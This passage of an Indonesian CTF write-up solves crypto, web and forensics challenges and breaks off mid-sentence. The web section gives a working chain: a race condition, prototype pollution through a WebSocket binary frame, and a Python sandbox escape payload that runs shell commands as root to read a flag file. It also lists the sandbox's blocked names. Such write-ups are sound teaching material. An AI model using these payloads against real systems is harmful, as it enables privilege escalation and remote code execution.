    ciphertext = "SOOHOHHDWOOHOOODWOOHOHHDWOOHOHODWOOHOHHDWOOHHOHHDWOOHOHHDWOOHHHODWOOHOHODWOOHHOODWOOHOHODWOOHOHHDWOOHOHHDWOOOHHODWOOHOHHDWOOHHHOHDWOOHHOODWOOHHHODWOOHHOODWOOOHHODWOOHOOODWOOHHHOHDWOOHOHODWOOHOHHDWOOHOHODWOOHOHODWOOHOHODWOOHOHHDWOOHOHHDWOOHHOOHDWOOHOHODWOOHHOHDWOOHHOHDWOOHHHODWOOHHOHDWOOHHHODWOOHOHODWOOHHOOHDWOOHOOODWOOHHOODWOOHOOODWOOHOHODWOOHOOHDWOOHHOHDWOOHOOHDWOOHHOHHDWOOHOOHDWOOOHHODWOOHOOODWOOHOHHDWOOHHOHDWOOHHOHHDWOOHOOHDWOOHHOODWOOHOOODWOOHHOHDWOOHOOODWOOOHHODWOOHOOODWOOHHHHDWOOHOOODWOOHOHHDWOOHOOHDWOOHHOOHDWOOHHOHDWOOHHOHHDWOOHOOHDWOOHOOHDWOOHOOHDWOOHHHOODWOOHOOHDWOOHHHODWOOHOOHDWOOHOOODWOOHOHODWOOHHOOHDWOOHOHHDWOOHOHHDWOOHHOODWOOHHHHDWOOHOOHDWOOHHOHODWOOHOOHDWOOHOOODWOOHOOODWOOHHOHHZ"

    # 1. Validasi Marker Start & End
    if not (ciphertext.startswith('S') and ciphertext.endswith('Z')):
        print("[-] Peringatan: Marker awal atau akhir tidak sesuai.")
     
    # Hilangkan huruf 'S' di awal dan 'Z' di akhir
    core_data = ciphertext[1:-1]

    # 2. Split berdasarkan delimiter "DW"
    blocks = core_data.split("DW")
     
    binary_chars = []
     
    # 3. Proses setiap blok (O = 1, H = 0)
    for block in blocks:
        if not block:
            continue
        # Ganti 'O' dengan '1' dan 'H' dengan '0'
        bin_str = block.replace('O', '1').replace('H', '0')
          
        # Konversi string biner ke integer, lalu ke karakter ASCII
        decimal_val = int(bin_str, 2)
        binary_chars.append(chr(decimal_val))
     
    # Gabungkan menjadi string Hex awal
    hex_string = "".join(binary_chars)
    print(f"[+] Hex String: {hex_string}")

    # 4. Decode dari Hex ke string teks asli (flag)
    try:
        flag = bytes.fromhex(hex_string).decode('utf-8')
        print(f"[+] Flag Berhasil Didapatkan: {flag}")
    except Exception as e:
        print(f"[-] Gagal melakukan decode hex ke ASCII: {e}")

if __name__ == "__main__":
    solve_ctf()
```
## Bukti Hasil Eksekusi (Output)
Saat skrip dijalankan pada lingkungan terminal, proses parsing berhasil menerjemahkan seluruh blok biner menjadi representasi hexadecimal, yang kemudian didecode kembali menjadi plaintext bersih:


```bash
[+] Hex String: 47454d415354494b31397b5455544f5221215f7375626d69742d63727970746f2d666c61675f44306e677d
[+] Flag Berhasil Didapatkan: GEMASTIK19{TUTOR!!_submit-crypto-flag_D0ng}
```
---

> **FLAG:** `GEMASTIK19{TUTOR!!_submit-crypto-flag_D0ng}`

- Binary to ASCII - https://www.rapidtables.com/convert/number/binary-to-ascii.html
- Hex to ASCII - https://www.rapidtables.com/convert/number/hex-to-ascii.html

---

---

# 6. `Wormhole` — web


---

### 📝 Deskripsi Soal

> **Description dari panitia:**
> - You Only has one shot. Chain. Escalate. Break.
> - Author: VascoZ, ws gateway nya port :13403
> - Source code dikasih: `docker-compose.yml` + `Dockerfile.ws` + `src/` (ws_gateway + frontend templates)

**Connection info:**

```text
http://15.232.64.175:13402  (HTTP frontend, uvicorn python)
ws://15.232.64.175:13403    (WebSocket gateway, nodejs, di-map ke container port 9020)
```

---

### 🔍 Exploitation Step

Pertama saya baca source code yang dikasih panitia dulu, fokus ke `ws_gateway/server.js` sama
`docker-compose.yml`. Dari sini saya nemuin **4 bug kunci**.

**Bug #1 (line 22-33): `deepMerge` rawan prototype pollution.**

```javascript
function deepMerge(target, source) {
    for (const key in source) {              // <-- BUG: for...in iterate prototype chain juga
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (target[key] === undefined || typeof target[key] !== 'object') target[key] = {};
            deepMerge(target[key], source[key]);
        } else { target[key] = source[key]; }
    }
}
```

`for...in` di JavaScript iterate semua enumerable properties termasuk yang diwariskan via prototype
chain (`__proto__`), dan gak ada proteksi khusus buat key `__proto__` atau `constructor.prototype`.
Jadi kalau attacker kirim `{"__proto__": {"role": "supervisor"}}`, bakal ke-set
`Object.prototype.role = "supervisor"` di seluruh process node.

**Bug #2 (line 180-205): `handleBinaryFrame` skip role check.**

```javascript
// TEXT path (line 148-161) - BUTUH supervisor
if (msg.type === 'device_config') {
    if (conn.role !== 'supervisor') {        // <-- CEK role
        conn.ws.send(JSON.stringify({ type: 'error', error: 'Insufficient clearance...' }));
        return;
    }
    deepMerge(conn.device_config, msg.data);
    await syncConfig(conn);
}

// BINARY path (line 198-203) - TIDAK cek role!
if (msg.type === 'device_config') {
    if (!msg.data || typeof msg.data !== 'object') return;
    deepMerge(conn.device_config, msg.data);    // <-- BUG: gak cek conn.role
    await syncConfig(conn);
}
```

Ini bug paling kunci. Text path `device_config` cek `conn.role !== 'supervisor'` jadi researcher
ditolak, tapi binary path `device_config` TIDAK cek role sama sekali. Jadi researcher biasa bisa set
apapun ke `conn.device_config` lewat binary frame. Kedua path pakai `deepMerge` + `syncConfig` yang
sama, jadi efeknya identik.

**Bug #3 (line 35-54): `syncConfig` iterate `for...in` + persist role ke Redis.**

```javascript
async function syncConfig(conn) {
    const r = await getRedis();
    const configToSave = {};
    for (const key in conn.device_config) {            // <-- BUG: for...in include prototype chain
        configToSave[key] = conn.device_config[key];
    }
    await r.hSet(`device_cfg:${conn.user_id}`, 'data', JSON.stringify(configToSave));
    if (configToSave.role) {                           // <-- kalau role truthy
        await r.set(`role:${conn.user_id}`, String(configToSave.role));  // <-- PERSIST ke Redis!
    }
}
```

Kalau `Object.prototype` udah terpolusi `role = "supervisor"` (dari Bug #1), `configToSave.role`
ikut ke-ambil dari prototype, terus `r.set("role:<user_id>", "supervisor")` di-execute. Backend HTTP
(python, gak dikasih source) baca `role:<user_id>` dari Redis saat login buat nentuin role di JWT,
jadi JWT supervisor di-issue tanpa forge signature.

**Bug #4 (line 104-118): WS auth butuh wallet ≥ 200.**

```javascript
if (msg.type === 'auth') {
    const payload = jwt.verify(msg.token, JWT_SECRET, { algorithms: ['HS256'] });
    conn.user_id = payload.user_id;
    conn.role = payload.role || 'researcher';
    const wallet = parseInt(await r.get(`wallet:${conn.user_id}`) || '0');
    if (wallet < 200) {                                // <-- gate: wallet >= 200
        conn.ws.send(JSON.stringify({ type: 'error', error: `Insufficient QC...` }));
        return;
    }
}
```

WS auth butuh `wallet:<user_id> ≥ 200` di Redis. Masalahnya register default wallet 100, mint normal
amount 100 -> wallet cuman +10. Jadi butuh cara cepat naikkan wallet ≥ 200 buat lolos gate ini.

Tambahan dari `docker-compose.yml`, `JWT_SECRET` punya default value hardcoded tapi bisa di-override
via env. Saya coba forge JWT pakai secret default itu ternyata ditolak "Invalid token", berarti
di-override di target. Terus `WS_MAGIC = 1` artinya format binary frame yang valid:
`[type:1B=1][length:4B BE][payload UTF-8]`.

Register akun buat explore dashboard:




Dapat wallet 100, role researcher. Terminal page butuh supervisor, stream page connect ke WS
gateway. Terminal page nunjukin sandbox "Python 3.12 AST-filtered, allowed_modules: none (restricted
globals)" - pasti butuh bypass sandbox nanti kalau udah supervisor.



#### Naikin wallet ≥ 200 (race condition mint)

Dari source tahu WS auth butuh wallet ≥ 200, tapi mint normal amount 100 cuman +10:

```
POST /api/vault/mint
{"amount": 100, "nonce": "single_x0r_80832"}

Response {"status":"processing", ...}
# wallet: 100 -> 110 (naik 10 doang, bukan 100)
```


Fuzzing amount semua ditolak `Invalid amount (1-100)` (`1000`, `-50`, `"100"`, `99.99`, `[100]`),
jadi amount strict integer 1-100, gak bisa type confusion. Field injection
(`{"amount":100,"nonce":"test","role":"supervisor"}`) juga gak ada efek. Nonce check atomic buat
nonce sama, tapi **race condition dengan nonce beda** tembus: kirim 15 request paralel dengan nonce
beda, semua sukses diproses bareng karena gak ada lock atomic. Solver: [`solve_race.py`](solve_race.py).

```
{"amount": 100, "nonce": "noncelong1000"} ... (15/15 sukses paralel)
GET /api/auth/me -> {"role":"researcher","wallet":250}
# wallet 100 -> 250 (>= 200, lolos WS auth gate)
```



Coba juga forge JWT pakai secret default docker-compose ditolak, alg confusion (none, empty key)
ditolak, register dengan `role=supervisor` tetap dapet researcher (hardcode backend). Jadi gak bisa
forge JWT langsung, solusinya exploit WS buat persist role supervisor ke Redis.

Probe WS gateway pakai binary frame `device_config` dengan `{probe:"sent"}` aja (gak kirim
role/user_id/wallet), response config keluar field yang gak saya kirim:

```
{"type":"binary_config_updated","config":{"role":"supervisor","qbit_threshold":0.99,"user_id":"admin","authenticated":true,"wallet":999999,"probe":"sent"}}
# field role/user_id/authenticated/wallet TIDAK dikirim -> dari Object.prototype yang udah terpolusi
```

Konfirmasi `Object.prototype` di process node WS udah terpolusi. Saat `syncConfig` iterate
`for...in conn.device_config` (Bug #3), prototype properties ikut ter-save ke Redis.

#### Fuzzing sandbox (buat tahap akhir)

```
import os                    -> ImportError: __import__ not found
open("/flag.txt")            -> NameError: name 'open' is not defined
().__class__.__bases__[0].__subclasses__()   -> lolos! list subclass keluar
__init__.__globals__         -> Sandbox violation: Blocked attribute: __globals__
```

Dari traceback ke-leak path `/app/terminal.py` line 143: `exec(compiled, restricted_globals,
restricted_locals)`. AST filter blokir literal attribute name di blocklist:

```python
BLOCKED_NAMES = {"eval", "exec", "compile", "open", "__import__", "input", "breakpoint", "memoryview", "help"}
BLOCKED_ATTRS = {"__class__", "__bases__", "__base__", "__subclasses__", "__mro__",
                 "__globals__", "__code__", "__func__", "__self__",
                 "__builtins__", "__builtin__", "__dict__"}
```

**Bypass kuncinya:** AST filter cek literal attribute name di source code. Kalau attribute name
dibentuk dari string concat runtime, filter gak bisa static-analyze:

```python
g = func.__globals__                       # DIBLOKIR (literal __globals__)
g = getattr(func, '__glob' + 'als__')      # LOLOS (string concat)
```

#### Rantai eksploitasi (Chain → Escalate → Break)

**Stage 1: race mint** wallet 100 → 250 (lolos WS auth gate). Lihat [`solve_race.py`](solve_race.py).

**Stage 2: WS binary frame → persist role supervisor.** Stream page punya form "DEVICE CONFIG MERGE
(Supervisor Only)", tapi via WS binary frame role check di-skip (Bug #2):



```
# WS auth (text frame): {"type":"auth","token":"<JWT researcher, wallet >= 200>"}
# -> {"type":"auth_ok","role":"researcher"}

# WS binary frame (BUG #2: no role check), format [type:1B=1][len:4B BE][payload]
{"type":"device_config","data":{"role":"supervisor","qbit_threshold":0.99}}
# -> {"type":"binary_config_updated","config":{"role":"supervisor",...}}
# syncConfig: SET role:<user_id> "supervisor" ke Redis
```

Script WS binary frame (Node.js): [`stage2_ws_binary_frame.js`](stage2_ws_binary_frame.js).

Re-login HTTP, backend baca `role:<user_id>` dari Redis = supervisor -> issue JWT supervisor:

```
POST /api/auth/login  ->  {"status":"ok","role":"supervisor"}
GET  /api/auth/me     ->  {"role":"supervisor","wallet":250}
```




**Stage 3: sandbox escape → RCE → flag.** Sebagai supervisor, `/api/terminal/execute` kebuka:


```
GET /api/terminal/status -> {"role":"supervisor","can_execute":true,"sandbox":"Python 3.12 AST-filtered"}
```

Payload RCE (bypass AST filter via string concat):

```python
subs = ().__class__.__bases__[0].__subclasses__()
idx = None
for i in range(len(subs)):
    if subs[i].__name__ == '_wrap_close':
        idx = i
        break
g = getattr(subs[idx].__init__, '__glob' + 'als__')
os_mod = g['sys'].modules['os']
print(os_mod.popen('id; echo ---; ls /; echo ---; cat /flag.txt').read())
```

Response:

```
uid=0(root) gid=0(root) groups=0(root)
---
app bin boot dev entrypoint.sh etc flag.txt home lib ...
---
GEMASTIK19{qu4ntum_r3l4y_pr0t0_p0llut10n_ch41n}
```

---

### 🚩 Flag

```
GEMASTIK19{qu4ntum_r3l4y_pr0t0_p0llut10n_ch41n}
```

---

---

# 7. `Cinder` — forensics


---

### Deskripsi Soal

> A phone seized during a data leak investigation. All that came back is one chat app's extracted
> data directory, and nothing in it looks interesting at first.
>
> Author: aodreamer

Attachment: `cinder_extract.zip`, isinya folder sandbox aplikasi Android `com.example.cinder`.



---

### Exploitation Step

Struktur handout-nya:

```
com.example.cinder/
  databases/     chat.db (1536 B), chat.db-wal (5392 B), chat.db-shm (32768 B)
  files/         avatars/me.png (8 byte), avatars/.nomedia
  shared_prefs/  secure_prefs.xml
```

Ada file `-wal` dan `-shm` nemplok di sebelah `.db`-nya, jadi database ini pakai mode **WAL**
(Write-Ahead Log). Ini penting: WAL sering nyimpen jejak transaksi lama, termasuk data yang udah
dihapus tapi belum di-checkpoint balik ke db utama.

`me.png` cuma 8 byte, pas di-xxd isinya signature PNG doang tanpa data. Umpan.

`secure_prefs.xml` ngasih semua bahan kripto terang-terangan:

```xml
<string name="install_key">zFQ9GVudkfiHhytpG1zAl2B+DHLhE650mzYFCL+pqSI=</string>
<string name="kdf_salt">5n581xQBvjFW5FFDwj2stw==</string>
<int    name="kdf_iters" value="120000" />
<string name="msg_cipher">AES-256-GCM</string>
<string name="aead_aad">thread:rowid</string>
```

Dan ada `CASE_NOTE.md` yang bilang *"Work on a copy; keep the originals intact."*



---


**Jebakan pertama: jangan buka chat.db langsung.** Aku sempat buka `chat.db` pakai modul sqlite3
Python, dan file `chat.db-wal`-nya langsung ilang. Ternyata SQLite otomatis nge-checkpoint pas
database dibuka, isi WAL disalin ke db utama terus file WAL-nya dihapus. Untung saya kerjain di
salinan. Jadi peringatan "work on a copy" di case note itu beneran teknis, bukan basa-basi.

**Struktur pesan.** Tabel `messages` isinya 4 baris, kolom `body`-nya BLOB. Pas diintip ternyata
protobuf sederhana, semua wire type 2:

| Field | Isi |
|---|---|
| 1 | nama pengirim |
| 2 | nonce (12 byte) |
| 3 | ciphertext |
| 4 | tag GCM (16 byte) |

**Kuncinya.** `install_key` mentah nggak jalan buat AES-256. Yang bener diturunin dulu:

```
key = pbkdf2_hmac("sha256", b64decode(install_key), b64decode(kdf_salt), 120000, 32)
```

**AAD-nya template.** `"thread:rowid"` di prefs itu bukan literal, tapi template dua placeholder.
Aku coba beberapa varian dan biarin tag GCM yang mutusin, yang lolos ternyata `f"{thread}:{rowid}"`,
misalnya `family:1`.

Dengan itu 4 pesan kebuka, tapi isinya biasa aja (beli galon, resi paket). Di tabel `drafts` ada
`GEMASTIK{th1s_dr4ft_n0t3_1s_4_d3c0y}`, tapi itu umpan, formatnya `GEMASTIK{` bukan `GEMASTIK19{`
dan catatannya sendiri bilang "belum bener".

**WAL-nya yang jadi kunci.** Aku parse header WAL-nya: page size 512, jadi tiap frame 536 byte, dan
`(5392 - 32) / 536 = 10` pas. Dari field `dbsize` tiap frame, frame 4 dan frame 9 nilainya 6
(commit), sisanya 0. Berarti ada **dua transaksi**. SQLite cuma nerapin state terakhir.

Pas saya rakit ulang state transaksi pertama (cuma frame 0 sampai 4), hasilnya beda jauh: kalau
state akhir cuma punya id 1-4, state pertama punya delapan pesan, id 1-4 plus id 10-13 di thread
baru `kurir`. Jadi tersangkanya ngehapus thread `kurir`, tapi penghapusan itu sendiri kan jadi
transaksi baru, dan state sebelumnya tetep nyangkut di WAL.

(Detail iseng: `salt1`/`salt2` di header WAL isinya `0x53414c54`/`0x43494e44`, ASCII-nya "SALT" dan
"CIND". Jadi WAL-nya emang disusun tangan sama penulis soal, bukan hasil pemakaian app beneran.)

---


Solver lengkapnya:

```python
#!/usr/bin/env python3
import os
import struct
import base64
import hashlib
import sqlite3
import xml.etree.ElementTree as ET
from Crypto.Cipher import AES

def parse_secure_prefs(xml_path):
    """Membaca parameter kripto secara dinamis dari secure_prefs.xml."""
    print(f"[*] Membaca konfigurasi dari: {xml_path}")
    tree = ET.parse(xml_path)
    root = tree.getroot()
    prefs = {}
    for elem in root:
        name = elem.get("name")
        if elem.tag == "string":
            prefs[name] = elem.text
        elif elem.tag == "int":
            prefs[name] = int(elem.get("value"))
        elif elem.tag == "boolean":
            prefs[name] = elem.get("value") == "true"
        elif elem.tag == "long":
            prefs[name] = int(elem.get("value"))
    return prefs

def parse_protobuf_blob(blob):
    """Parser sederhana untuk Protobuf wire type 2 (length-delimited) pada body pesan."""
    fields = {}
    pos = 0
    while pos < len(blob):
        tag_byte = blob[pos]
        pos += 1
        field_num = tag_byte >> 3
        wire_type = tag_byte & 0x07
        if wire_type == 2:
            length = 0
            shift = 0
            while True:
                b = blob[pos]
                pos += 1
                length |= (b & 0x7F) << shift
                if not (b & 0x80):
                    break
                shift += 7
            value = blob[pos:pos + length]
            pos += length
            fields[field_num] = value
        else:
            break
    return fields

def main():
    db_path = "com.example.cinder/databases/chat.db"
    wal_path = "com.example.cinder/databases/chat.db-wal"
    prefs_path = "com.example.cinder/shared_prefs/secure_prefs.xml"

    if not all(os.path.exists(p) for p in [db_path, wal_path, prefs_path]):
        print("[-] Error: File artefak Cinder tidak lengkap di direktori ini.")
        return

    # 1. Ambil parameter kripto dari XML
    prefs = parse_secure_prefs(prefs_path)
    install_key = base64.b64decode(prefs["install_key"])
    kdf_salt = base64.b64decode(prefs["kdf_salt"])
    kdf_iters = prefs["kdf_iters"]

    # Turunkan kunci AES-256 menggunakan PBKDF2
    key = hashlib.pbkdf2_hmac("sha256", install_key, kdf_salt, kdf_iters, dklen=32)
    print("[+] Kunci enkripsi berhasil diturunkan via PBKDF2.")

    # 2. BACA FILE SEBAGAI BYTES (PENGAMANAN BARANG BUKTI)
    # PENTING: Jangan pernah membuka file chat.db asli langsung menggunakan sqlite3.connect()
    # karena koneksi SQLite dapat memicu operasi checkpoint otomatis atau mengubah file WAL/SHM asli,
    # yang akan merusak integritas barang bukti digital.
    with open(db_path, "rb") as f:
        base_db_bytes = f.read()

    with open(wal_path, "rb") as f:
        wal_bytes = f.read()

    # 3. Parse Header WAL secara Dinamis
    # Offset 8 pada header WAL menyimpan ukuran halaman (page size)
    page_size = struct.unpack(">I", wal_bytes[8:12])[0]
    header_size = 32
    frame_header_size = 24
    frame_total_size = frame_header_size + page_size

    num_frames = (len(wal_bytes) - header_size) // frame_total_size
    print(f"[*] Ukuran Halaman (Page Size) terdeteksi: {page_size} bytes")
    print(f"[*] Total Frame di WAL terdeteksi: {num_frames} frames")

    # 4. Ekstraksi Frame dan Deteksi Batas Transaksi
    frames = []
    transactions = []
    current_tx_frames = []

    for i in range(num_frames):
        offset = header_size + i * frame_total_size
        f_hdr = wal_bytes[offset:offset + frame_header_size]
        f_data = wal_bytes[offset + frame_header_size:offset + frame_total_size]
        
        pgno, dbsize = struct.unpack(">II", f_hdr[0:8])
        current_tx_frames.append((pgno, f_data))
        
        # Field dbsize > 0 menandakan akhir dari sebuah transaksi (Commit Frame)
        if dbsize > 0:
            transactions.append(list(current_tx_frames))
            current_tx_frames = []

    print(f"[*] Total Transaksi ditemukan dalam WAL: {len(transactions)}")

    if len(transactions) == 0:
        print("[-] Tidak ditemukan transaksi commit di dalam file WAL.")
        return

    # 5. Rekonstruksi State Database per Transaksi & Dekripsi Pesan
    all_tx_messages = []

    for tx_idx in range(len(transactions)):
        # Akumulasi frame secara sekuensial hingga transaksi saat ini
        cumulative_frames = []
        for t_i in range(tx_idx + 1):
            cumulative_frames.extend(transactions[t_i])

        # Rakit ulang halaman database di memori
        pages = {}
        for idx in range(len(base_db_bytes) // page_size):
            pages[idx + 1] = base_db_bytes[idx * page_size : (idx + 1) * page_size]
        
        for pgno, f_data in cumulative_frames:
            pages[pgno] = f_data

        max_pg = max(pages.keys())
        temp_db_bytes = bytearray()
        for p in range(1, max_pg + 1):
            temp_db_bytes.extend(pages.get(p, b"\x00" * page_size))

        # Tulis ke file sementara HANYA untuk dibaca oleh modul sqlite3 secara aman, lalu hapus
        temp_filename = f"_temp_forensic_tx_{tx_idx}.db"
        with open(temp_filename, "wb") as tf:
            tf.write(bytes(temp_db_bytes))

        try:
            conn = sqlite3.connect(temp_filename)
            cursor = conn.cursor()
            
            cursor.execute("SELECT name FROM sqlite_master WHERE type='table' AND name='messages';")
            if not cursor.fetchone():
                conn.close()
                os.remove(temp_filename)
                continue

            cursor.execute("SELECT id, thread, ts, body FROM messages ORDER BY id;")
            rows = cursor.fetchall()
            conn.close()
        except Exception as e:
            print(f"[-] Error membaca database sementara untuk transaksi {tx_idx}: {e}")
            rows = []
        finally:
            if os.path.exists(temp_filename):
                os.remove(temp_filename)

        # Proses dan dekripsi pesan
        tx_msgs = []
        for rowid, thread, ts, body_blob in rows:
            fields = parse_protobuf_blob(body_blob)
            sender = fields.get(1, b"").decode("utf-8", errors="ignore")
            nonce = fields.get(2, b"")
            ciphertext = fields.get(3, b"")
            tag = fields.get(4, b"")

            plaintext = "[DEKRIPSI GAGAL]"
            if nonce and ciphertext and tag:
                try:
                    # Menggunakan pola AAD dinamis: f"{thread}:{rowid}"
                    aad = f"{thread}:{rowid}".encode("utf-8")
                    cipher = AES.new(key, AES.MODE_GCM, nonce=nonce)
                    cipher.update(aad)
                    plaintext = cipher.decrypt_and_verify(ciphertext, tag).decode("utf-8", errors="ignore")
                except Exception as ex:
                    plaintext = f"[ERROR KRI PTO: {ex}]"

            tx_msgs.append({
                "id": rowid,
                "thread": thread,
                "ts": ts,
                "sender": sender,
                "message": plaintext
            })
        
        all_tx_messages.append(tx_msgs)

    # 6. Cetak Hasil Analisis Perbandingan Transaksi
    print("\n" + "="*60)
    print(" LAPORAN ANALISIS FORENSIK: REKONSTRUKSI WAL CINDER ")
    print("="*60)

    for idx, msgs in enumerate(all_tx_messages):
        print(f"\n[+] State Database pada Transaksi ke-{idx + 1} ({len(msgs)} pesan):")
        for m in msgs:
            print(f"    - ID: {m['id']} | Thread: {m['thread']} | Pengirim: {m['sender']} | Pesan: {m['message']}")

    # Bandingkan state awal dan akhir untuk mencari pesan yang terhapus
    if len(all_tx_messages) >= 2:
        latest_ids = {m['id'] for m in all_tx_messages[-1]}
        deleted_messages = [m for m in all_tx_messages[0] if m['id'] not in latest_ids]
        
        print("\n" + "-"*60)
        print("[!] TEMUAN UTAMA: PESAN YANG DIHAPUS PADA TRANSAKSI BERIKUTNYA")
        print("-"*60)
        if deleted_messages:
            for m in deleted_messages:
                print(f"    [DITEMUKAN DI WAL WALKBACK] ID: {m['id']} | Thread: {m['thread']} | Pengirim: {m['sender']} | Pesan: {m['message']}")
        else:
            print("    Tidak ada pesan unik yang ditemukan di state lampau.")
    else:
        print("\n[-] WAL hanya memiliki satu transaksi, tidak ada data historis yang bisa dibandingkan.")

if __name__ == "__main__":
    main()

```

```bash
$ python3 Cinder-solved.py
```

Yang penting scriptnya nggak ngerusak bukti: `chat.db` asli dibaca sebagai bytes doang, tiap state
transaksi dirakit di memori, ditulis ke file sementara buat dibaca sqlite3, terus dihapus lagi.
Parameter kripto dibaca dari `secure_prefs.xml`, dan page size / jumlah frame / jumlah transaksi
diturunin dari header WAL (bukan dihardcode).

Alurnya: parse header WAL, kelompokin frame per transaksi (batas = frame dengan `dbsize > 0`),
rakit ulang state tiap transaksi, dekripsi pesan (AES-256-GCM, AAD `f"{thread}:{rowid}"`), terus
bandingin state lama vs baru buat nandain pesan yang dihapus.



<details>
<summary>Log lengkap</summary>

```text
[*] Membaca konfigurasi dari: com.example.cinder/shared_prefs/secure_prefs.xml
[+] Kunci enkripsi berhasil diturunkan via PBKDF2.
[*] Ukuran Halaman (Page Size) terdeteksi: 512 bytes
[*] Total Frame di WAL terdeteksi: 10 frames
[*] Total Transaksi ditemukan dalam WAL: 2

============================================================
 LAPORAN ANALISIS FORENSIK: REKONSTRUKSI WAL CINDER
============================================================

[+] State Database pada Transaksi ke-1 (8 pesan):
    - ID: 1 | Thread: family | Pengirim: mama | Pesan: jangan lupa beli galon ya nak
    - ID: 2 | Thread: family | Pengirim: me | Pesan: iya ntar sore mampir
    - ID: 3 | Thread: family | Pengirim: mama | Pesan: makasih :)
    - ID: 4 | Thread: cs-toko | Pengirim: toko_official | Pesan: Pesanan #A2213 sudah dikirim, resi JX9920.
    - ID: 10 | Thread: kurir | Pengirim: me | Pesan: arsip klien sudah gue compress + encrypt
    - ID: 11 | Thread: kurir | Pengirim: N | Pesan: mantap. drop kunci vault-nya di sini
    - ID: 12 | Thread: kurir | Pengirim: me | Pesan: vault manifest - internal, do not forward
packed the following into vault.7z (AES) before wipe:
  - 2024Q3_client_contracts/*.pdf (42 files)
  - payroll_export_nov.xlsx
  - infra/prod_db_dump.sql.gz
  - keys/deploy_id_ed25519 (rotate after handoff)
  - board_minutes_2024-10.docx
handoff: split archive uploaded to the usual dead-drop in 3 parts;
part hashes recorded in the courier thread. once N confirms receipt,
purge local copies and clear this thread (disappearing mode is on).
reminder: do NOT reuse the old passphrase scheme, N flagged it last time.
vault key: GEMASTIK19{n0t_burn3d_just_h1d1ng_1n_th3_w4l}

    - ID: 13 | Thread: kurir | Pengirim: N | Pesan: diterima. hapus chat ini sekarang

[+] State Database pada Transaksi ke-2 (4 pesan):
    - ID: 1 | Thread: family | Pengirim: mama | Pesan: jangan lupa beli galon ya nak
    - ID: 2 | Thread: family | Pengirim: me | Pesan: iya ntar sore mampir
    - ID: 3 | Thread: family | Pengirim: mama | Pesan: makasih :)
    - ID: 4 | Thread: cs-toko | Pengirim: toko_official | Pesan: Pesanan #A2213 sudah dikirim, resi JX9920.

------------------------------------------------------------
[!] TEMUAN UTAMA: PESAN YANG DIHAPUS PADA TRANSAKSI BERIKUTNYA
------------------------------------------------------------
    [DITEMUKAN DI WAL WALKBACK] ID: 10 | Thread: kurir | Pengirim: me | Pesan: arsip klien sudah gue compress + encrypt
    [DITEMUKAN DI WAL WALKBACK] ID: 11 | Thread: kurir | Pengirim: N | Pesan: mantap. drop kunci vault-nya di sini
    [DITEMUKAN DI WAL WALKBACK] ID: 12 | Thread: kurir | Pengirim: me | Pesan: vault manifest - internal, do not forward
packed the following into vault.7z (AES) before wipe:
  - 2024Q3_client_contracts/*.pdf (42 files)
  - payroll_export_nov.xlsx
  - infra/prod_db_dump.sql.gz
  - keys/deploy_id_ed25519 (rotate after handoff)
  - board_minutes_2024-10.docx
handoff: split archive uploaded to the usual dead-drop in 3 parts;
part hashes recorded in the courier thread. once N confirms receipt,
purge local copies and clear this thread (disappearing mode is on).
reminder: do NOT reuse the old passphrase scheme, N flagged it last time.
vault key: GEMASTIK19{n0t_burn3d_just_h1d1ng_1n_th3_w4l}

    [DITEMUKAN DI WAL WALKBACK] ID: 13 | Thread: kurir | Pengirim: N | Pesan: diterima. hapus chat ini sekarang
```
</details>

---

> **FLAG:** `GEMASTIK19{n0t_burn3d_just_h1d1ng_1n_th3_w4l}`

---

---

# 8. `Ghost in the Core` — forensics


---

### Deskripsi Soal

> aether-sensor-07 phoned home once, then went quiet. We caught a core dump of the process
> mid-flight and the packets that went with it. What got out?
>
> Author: aodreamer

Attachment: `forensics-ghost-in-the-core.zip`, isinya `SOC_NOTE.md` + `victim.core.gz` +
`capture.pcap`. Kata SOC note-nya, proses `sensor` nyambung ke `127.0.0.1:9000`, ngirim data,
terus ngehapus buffer kerjanya, dan binary-nya nggak pernah ditulis ke disk, cuma hidup di memori.


---

### Exploitation Step

Dua artefak yang saling melengkapi: core dump proses dan trafik keluarnya.

```bash
$ file victim.core capture.pcap
victim.core:  ELF 64-bit LSB core file, x86-64, from './sensor'
capture.pcap: pcap capture file (Ethernet)
```

Aku parse pcap-nya manual (Ethernet + IPv4 + TCP), gabungin semua payload TCP searah. Dari 7 paket,
6 di antaranya cuma handshake sama teardown, cuma **satu paket yang bawa data: 51 byte**.

```
49721->9000 payload=0     # SYN/ACK
...
49721->9000 payload=51    # ini yang harus dibuka
...
total payload: 51 byte
198ecedb028bde47c05cd98303f2fa439df9b7694e30b3c48292... (51 byte)
```


Aku cek juga konstanta kripto standar di core (`expand 32-byte k`, AES sbox), nggak ada satu pun.
Jadi cipher-nya custom atau stream cipher sederhana.

---


**Carve binary yang cuma ada di memori.** SOC note nekenin binary-nya nggak pernah ke disk. Tapi
core dump itu snapshot memori proses, dan catatan `NT_FILE` di dalamnya nyimpen mapping segmen
yang di-load:

```bash
$ readelf -n victim.core | grep -A1 sensor
    /tmp/build.fs2Ia2XBcX/sensor
0x0000567ead19a000  0x0000567ead19b000  ...   (5 halaman)
```

Jadi binary-nya ada di `/tmp/build.../sensor`. Aku carve 5 halaman itu dari core lewat magic ELF
(mulai dari offset > 0x400 biar nggak ke-ambil header core-nya sendiri):

```python
d = open("victim.core","rb").read()
i = d.find(b"\x7fELF", 0x400)
open("sensor","wb").write(d[i:i+0x5000])
# -> ELF 64-bit LSB pie executable, stripped
```

`strings` sensor ngungkap perilakunya:

```
GIO_LAUNCHED_DESKTOP_FILE     <- env var yang disamarkan
%63[^|]                       <- format sscanf
127.0.0.1
getenv, socket, connect, explicit_bzero
```

`explicit_bzero` cocok sama "wiped its working buffers" di SOC note (dan itu versi memset yang
nggak dioptimasi compiler, jadi buffer-nya beneran dihapus). Yang menarik:
`GIO_LAUNCHED_DESKTOP_FILE` itu nama env var GNOME yang sah, dipakai buat nyimpen salt biar nggak
kelihatan mencurigakan. Nilainya masih nyangkut di stack core:

```python
m = re.search(rb"GIO_LAUNCHED_DESKTOP_FILE=([ -~]+)", d)
# -> 4c7afa2b34c5325f   (16 char hex)
```

**Cipher-nya RC4, dipanggil dua kali.** Di disassembly ada fungsi dengan pola KSA (loop 256
iterasi + swap) dan PRGA (`S[(S[i]+S[j]) & 0xff]`), tanpa konstanta ajaib apa pun. Itu RC4. Dan
fungsi ini dipanggil dua kali, jadi ada rantai kunci berlapis.

**Lapis 1: dekripsi config.** Argumen panjang kunci di panggilan pertama isinya `0x18` = 24, bukan
